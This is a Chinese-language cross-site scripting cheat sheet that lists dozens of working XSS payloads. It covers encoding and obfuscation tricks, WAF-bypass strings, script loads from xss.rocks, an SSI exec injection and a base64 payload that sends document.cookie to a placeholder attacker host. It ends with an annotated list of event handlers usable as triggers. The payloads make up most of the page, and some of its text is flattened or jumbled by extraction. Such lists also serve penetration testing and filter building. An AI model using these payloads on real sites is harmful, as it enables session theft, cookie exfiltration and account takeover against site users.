<BGSOUND SRC="javascript:alert('XSS');"> <BR SIZE="&{alert('XSS')}"> <LINK REL="stylesheet" HREF="javascript:alert('XSS');"> 适用于IE <STYLE>@import'http://xss.rocks/xss.css';</STYLE> 用于google桌面，不能使用斜杠或等号的时候，这个payload很有用 <META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet"> <STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE> 仅适用于Gecko渲染引擎 <STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE> 这个xss有时会将ie发送到无限循环的警报中 <IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"> 由罗曼伊万诺夫创建 exp/*<A STYLE='no\xss:noxss("*//*");xss:ex/*XSS*//*/*/pression(alert("XSS"))'> 混合表达式，可以将ie发送到无限循环中 <STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A> 使用背景图像的style标签 <STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE> 使用背景的style标记 <IFRAME SRC="javascript:alert('XSS');"></IFRAME> <IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME> <FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET> <TABLE BACKGROUND="javascript:alert('XSS')"> <TABLE><TD BACKGROUND="javascript:alert('XSS')"> <BASE HREF="javascript:alert('XSS');//"> <OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT> 这里可以注入病毒 EMBED SRC="http://ha.ckers.Using EMBED标签你可以嵌入一个包含XSS的Flash电影。点击这里进行演示。如果添加属性 allowScriptAccess="never" and allownetworking="internal" 它可以减轻这种风险(感谢Jonathan Vanasco提供的信息).: org/xss.swf" AllowScriptAccess="always"></EMBED> 可以嵌入flash影片 <EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED> 这个仅适用于火狐 a="get"; b="URL(\""; c="javascript:"; d="alert('XSS');\")"; eval(a+b+c+d); 可以使用actionscript模糊xss payload <XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> <SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN> 适合IE <XML SRC="xsstest.xml" ID=I></XML> <SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN> <HTML><BODY> <?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"> <?import namespace="t" implementation="#default#time2"> <t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>"> </BODY></HTML> 仅在html和body标签之间才能工作 <SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT> 可以将javascript文件重命名为xss payload 的图像 <!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"--> 需要服务器安装ssl <? echo('<SCR)'; echo('IPT>alert("XSS")</SCRIPT>'); ?> 需要服务器安装php <IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode"> Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser <META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>"> 修改cookie <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4- utf-7编码，在google的404脚本中找到了这个漏洞本地htc文件
<XSS STYLE="behavior: url(xss.htc);">US-ASCII编码
US-ASCII编码（由Kurt Huwig发现）。这使用7位而不是8位的格式错误的ASCII编码。此XSS可能绕过许多内容过滤器，但仅在主机以US-ASCII编码传输时，或者如果您自己设置编码时才有效。这对于Web应用程序防火墙跨站点脚本规避而言比对服务器端过滤器规避更有用。Apache Tomcat是唯一以US-ASCII编码传输的已知服务器。
¼script¾alert(¢XSS¢)¼/script¾META标签
<meta> 元素可提供有关页面的元信息(meta-information),比如针对搜索引擎和更新频度的描述和关键词。
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');"><META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">base64编码<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">DIV标签
<DIV STYLE="background-image: url(javascript:alert('XSS'))">- 具有单一编码xss漏洞的div背景图像
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">- 包含十六禁止
<DIV STYLE="background-image: url(javascript:alert('XSS'))">- div表达式
<DIV STYLE="width: expression(alert('XSS'));">下层隐藏块(注释)
<!--[if gte IE 4]> <SCRIPT>alert('XSS');</SCRIPT> <![endif]-->使用html引用封装
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT> <SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT> <SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT> <SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT> <SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT> <SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT> <SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>url字符串规避
ip或主机名
<A HREF="http://66.102.7.147/">XSS</A>url编码
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>双字节编码
<A HREF="http://1113982867/">XSS</A>十六进制编码
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>八进制编码
<A HREF="http://0102.0146.0007.00000223/">XSS</A>base64编码
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">混合编码
<A HREF="h tt p://6 6.000146.0x7.147/">XSS</A>协议解析绕过
<A HREF="//www.google.com/">XSS</A> <A HREF="//google">XSS</A> <A HREF="http://ha.ckers.org@google">XSS</A> <A HREF="http://google:ha.ckers.org">XSS</A> <A HREF="http://google.com/">XSS</A> <A HREF="http://www.google.com./">XSS</A> <A HREF="javascript:document.location='http://www.google.com/'">XSS</A> <A HREF="http://www.google.com/ogle.com/">XSS</A>
字符串转义序列
HTML和JavaScript中字符“<”的所有可能组合。其中大部分都不会开箱即用，但如上所述，其中许多都可以在某些情况下渲染。
<
%3C
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
<
\x3c
\x3C
\u003c
\u003C
绕过waf的方法
存储型xss
如果攻击者设法通过过滤器过滤xss，则waf无法阻止攻击传导
发射型xss
示例: <script> ... setTimeout(\"writetitle()\",$_GET[xss]) ... </script> 利用: /?xss=500); alert(document.cookie);//dom型xss
示例: <script> ... eval($_GET[xss]); ... </script> 利用: /?xss=document.cookiexss通过请求重定向
易受攻击的代码
... header('Location: '.$_GET['param']); ... 以及 ... header('Refresh: 0; URL='.$_GET['param']); ...此请求不会通过waf：
/?param=javascript:alert(document.cookie)此请求将通过waf，并且将在某些浏览器中执行
/?param=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=用户xss的 waf bypass 字符串
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS"> <Video> <source onerror = "javascript: alert (XSS)"> <Input value = "XSS" type = text> <applet code="javascript:confirm(document.cookie);"> <isindex x="javascript:" onmouseover="alert(XSS)"> "></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT> "><img src="x:x" onerror="alert(XSS)"> "><iframe src="javascript:alert(XSS)"> <object data="javascript:alert(XSS)"> <isindex type=image src=1 onerror=alert(XSS)> <img src=x:alert(alt) onerror=eval(src) alt=0> <img src="x:gif" onerror="window['al\u0065rt'](0)"></img> <iframe/src="data:text/html,<svg onload=alert(1)>"> <meta content="
 1 
; JAVASCRIPT: alert(1)" http-equiv="refresh"/> <svg><script xlink:href=data:,window.open('https://www.google.com/')></script <meta http-equiv="refresh" content="0;url=javascript:confirm(1)"> <iframe src=javascript:alert(document.location)> <form><a href="javascript:\u0061lert(1)">X </script><img/*%00/src="worksinchrome:prompt(1)"/%00*/onerror='eval(src)'> <style>//*{x:expression(alert(/xss/))}//<style></style> 鼠标悬停在上面 <img src="/" =_=" title="onerror='prompt(1)'"> <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>ClickMe <script x> alert(1) </script 1=2 <form><button formaction=javascript:alert(1)>CLICKME <input/onmouseover="javaSCRIPT:confirm(1)" <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>过滤旁路警报混淆
(alert)(1) a=alert,a(1) [1].find(alert) top[“al”+”ert”](1) top[/al/.source+/ert/.source](1) al\u0065rt(1) top[‘al\145rt’](1) top[‘al\x65rt’](1) top[8680439..toString(30)](1)
事件处理程序
可以参考dottoro的网站javascript事件列表
FSCommand()（攻击者可以在嵌入式Flash对象中执行时使用此功能）onAbort()（当用户中止加载图像时）onActivate()（当对象设置为活动元素时）onAfterPrint()（在用户打印或预览打印作业后激活）onAfterUpdate()（在更新源对象中的数据后激活数据对象）onBeforeActivate()（在将对象设置为活动元素之前触发）onBeforeCopy()（攻击者在选择复制到剪贴板之前执行攻击字符串 - 攻击者可以使用该execCommand("Copy")功能执行此操作）onBeforeCut()（攻击者在切换选择之前执行攻击字符串）onBeforeDeactivate()（从当前对象更改activeElement后立即触发）onBeforeEditFocus()（在可编辑元素中包含的对象进入UI激活状态或选择了可编辑容器对象的控件之前触发）onBeforePaste()（用户需要被欺骗粘贴或使用该execCommand("Paste")功能强制进入它）onBeforePrint()（用户需要被欺骗打印或攻击者可以使用print()或execCommand("Print")功能）。onBeforeUnload()（用户需要被欺骗关闭浏览器 - 攻击者无法卸载窗口，除非它是从父级生成的）onBeforeUpdate()（在更新源对象中的数据之前激活数据对象）onBegin()（当元素的时间轴开始时，onbegin事件立即触发）onBlur()（在加载另一个弹出窗口且窗口失去焦点的情况下）onBounce()（当marquee对象的behavior属性设置为“alternate”并且选取框的内容到达窗口的一侧时触发）onCellChange()（数据提供程序中的数据更改时触发）onChange()（select，text或TEXTAREA字段失去焦点，其值已被修改）onClick()（有人点击表格）onContextMenu()（用户需要右键单击攻击区域）onControlSelect()（当用户即将对对象进行控制选择时触发）onCopy()（用户需要复制某些东西或者可以使用该execCommand("Copy")命令来利用它）onCut()（用户需要复制某些东西或者可以使用该execCommand("Cut")命令来利用它）onDataAvailable()（用户需要更改元素中的数据，否则攻击者可以执行相同的功能）onDataSetChanged()（当数据源对象公开的数据集发生更改时触发）onDataSetComplete()（触发表示所有数据都可从数据源对象获得）onDblClick()（用户双击表单元素或链接）onDeactivate()（当activeElement从当前对象更改为父文档中的另一个对象时触发）onDrag()（要求用户拖动对象）onDragEnd()（要求用户拖动对象）onDragLeave()（要求用户将对象拖离有效位置）onDragEnter()（要求用户将对象拖动到有效位置）onDragOver()（要求用户将对象拖动到有效位置）onDragDrop()（用户将对象（例如文件）放到浏览器窗口中）onDragStart()（当用户开始拖动操作时发生）onDrop()（用户将对象（例如文件）放到浏览器窗口中）onEnd()（当时间线结束时，onEnd事件将触发。onError()（加载文档或图像会导致错误）onErrorUpdate()（在更新数据源对象中的关联数据时发生错误时在数据绑定对象上触发）onFilterChange()（当可视化过滤器完成状态更改时触发）onFinish()（当marquee完成循环时，攻击者可以创建漏洞）onFocus()（攻击者在窗口获得焦点时执行攻击字符串）onFocusIn()（攻击者在窗口获得焦点时执行攻击字符串）onFocusOut()（当窗口失去焦点时，攻击者执行攻击字符串）onHashChange()（当文档的当前地址的片段标识符部分发生更改时触发）onHelp()（攻击者在窗口聚焦时用户点击F1时执行攻击字符串）onInput()（通过用户界面更改元素的文本内容）onKeyDown()（用户按下一个键）onKeyPress()（用户按下或按住键）onKeyUp()（用户发布密钥）onLayoutComplete()（用户必须打印或打印预览）onLoad()（攻击者在窗口加载后执行攻击字符串）onLoseCapture()（可以通过该releaseCapture()方法利用）onMediaComplete()（使用流媒体文件时，此事件可能会在文件开始播放之前触发）onMediaError()（用户在浏览器中打开包含媒体文件的页面，并在出现问题时触发事件）onMessage()（文件收到消息时开火）onMouseDown()（攻击者需要让用户点击图像）onMouseEnter()（光标在对象或区域上移动）onMouseLeave()（攻击者需要让用户将鼠标悬停在图像或表格上然后再关闭）onMouseMove()（攻击者需要让用户将鼠标悬停在图像或表格上）onMouseOut()（攻击者需要让用户将鼠标悬停在图像或表格上然后再关闭）onMouseOver()（光标在对象或区域上移动）onMouseUp()（攻击者需要让用户点击图像）onMouseWheel()（攻击者需要让用户使用他们的鼠标滚轮）onMove()（用户或攻击者会移动页面）onMoveEnd()（用户或攻击者会移动页面）onMoveStart()（用户或攻击者会移动页面）onOffline()（如果浏览器在在线模式下工作并且它开始脱机工作，则会出现）onOnline()（如果浏览器在离线模式下工作并且它开始在线工作，则会出现）onOutOfSync()（中断元素播放时间轴定义的媒体的能力）onPaste()（用户需要粘贴或攻击者可以使用该execCommand("Paste")功能）onPause()（onpause事件触发时间线暂停时活动的每个元素，包括body元素）onPopState()（用户导航会话历史记录时触发）onProgress()（攻击者会使用此作为flash电影加载）onPropertyChange()（用户或攻击者需要更改元素属性）onReadyStateChange()（用户或攻击者需要更改元素属性）onRedo()（用户在撤消事务历史记录中前进）onRepeat()（每次重复时间线时，事件都会触发一次，不包括第一个完整周期）onReset()（用户或攻击者重置表单）onResize()（用户将调整窗口的大小，攻击者就可以自动与像初始化：<SCRIPT>self.resizeTo(500,400);</SCRIPT>）onResizeEnd()（用户将调整窗口的大小，攻击者就可以自动与像初始化：<SCRIPT>self.resizeTo(500,400);</SCRIPT>）onResizeStart()（用户将调整窗口的大小，攻击者就可以自动与像初始化：<SCRIPT>self.resizeTo(500,400);</SCRIPT>）onResume()（onresume事件触发时间线恢复时变为活动的每个元素，包括body元素）onReverse()（如果元素的repeatCount大于1，则每次时间轴开始向后播放时都会触发此事件）onRowsEnter()（用户或攻击者需要更改数据源中的行）onRowExit()（用户或攻击者需要更改数据源中的行）onRowDelete()（用户或攻击者需要删除数据源中的行）onRowInserted()（用户或攻击者需要在数据源中插入一行）onScroll()（用户需要滚动，否则攻击者可以使用该scrollBy()功能）onSeek()（当时间轴设置为向前以外的任何方向播放时，onreverse事件将触发）onSelect()（用户需要选择一些文本-攻击者就可以自动与像初始化：window.document.execCommand("SelectAll");）onSelectionChange()（用户需要选择一些文本-攻击者就可以自动与像初始化：window.document.execCommand("SelectAll");）onSelectStart()（用户需要选择一些文本-攻击者就可以自动与像初始化：window.document.execCommand("SelectAll");）onStart()（在每个选框循环开始时触发）onStop()（用户需要按停止按钮或离开网页）onStorage()（存储区域已更改）onSyncRestored()（用户中断元素播放其时间线所定义的媒体的能力）onSubmit()（要求攻击者或用户提交表单）onTimeError()（用户或攻击者将时间属性（例如dur）设置为无效值）onTrackChange()（用户或攻击者更改播放列表中的曲目）onUndo()（用户在撤消事务历史记录中后退）onUnload()（当用户点击任何链接或按下后退按钮或攻击者强制点击时）onURLFlip()（当由HTML + TIME（定时交互式多媒体扩展）媒体标记播放的高级流格式（ASF）文件处理嵌入在ASF文件中的脚本命令时，此事件将触发）seekSegmentTime()（这是一种方法，它定位元素的段时间线上的指定点并从该点开始播放。该段包含一次重复的时间线，包括使用AUTOREVERSE属性进行反向播放。）

Copyright © 2015 Powered by MWeb, Theme used GitHub CSS.